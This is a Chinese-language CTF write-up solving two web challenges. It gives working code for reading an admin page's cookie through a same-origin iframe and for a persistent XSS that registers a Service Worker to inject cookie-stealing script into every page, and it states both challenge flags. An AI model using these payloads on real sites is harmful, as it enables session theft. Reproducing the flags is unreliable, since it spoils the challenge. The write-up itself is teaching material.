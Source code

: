 #### 巡猎

二阶段，不是啊，我早早早早就找到这个[文档](https://developer.mozilla.org/en-US/docs/web/api/document/cookie#security)，写个了 iframe 的，~~但是屁用没有啊~~

我错了！傻逼的我居然没有手动从 F12 console 中调一调，犯了个写过油猴脚本之类的东西就不应该再犯的错！（骂自己）iframe 在脚本运行时还没加载完毕啊啊啊啊！！！！！

```html
<iframe src="/admin" id="iframe"></iframe>
<script>
var iframe = document.getElementById('iframe');

iframe.addEventListener('load', function() {
  var iframeDoc = iframe.contentDocument;
  document.title = iframeDoc.cookie;
});
</script>
```

加上延时直接过了，`flag{TotALlY-NO-SeCuRIty-In-The-sAme-ORIgiN}`，我特么狂丢 $155 \times 65 \% \approx 101 $ 分

#### 记忆

二阶段，提示给的相当明白和充足，立马就能搜索到持久化 XSS，注意到 Service Worker 需要单文件 js，因为我们可以改 Header，那就交个新页面  `hack_js` 当做 js，注意请求头设置为 ```{"Content-Type": "application/javascript", "Service-Worker-Allowed": "/"}```，多了的一项是因为 Service Worker 要允许跨路径的话，就要这么干

```js
this.addEventListener('fetch', function (event) {
    // var url = event.request.clone();
    // console.log('url: ', url);
    event.respondWith(
        new Response('<script>setInterval(function() { document.title = document.cookie; }, 200);</script>',
            {headers: {'Content-Type':'text/html'}}
        )
    )
});
```

这次再也不会犯错了，直接 `setInterval` 反复设置标题，接下来写我们的注册代码，放到另一个页面上，请求头别改：

```html
<script>
navigator.serviceWorker.register('/hack_js/', { scope: '/' })
    .then(function (reg) {
      console.log('success', reg);
    })
    .catch(function (err) {
      console.log('fail', err);
    });
</script>
```

scope 这个坑点提示说了，不说也很明白，起码我的浏览器直接在 console 的问题中提示了，最后提交 register 代码的主页，得到 `flag{perSiSTENT-xSS-aTTACk-UsiNG-SErvIce-WORkER}`
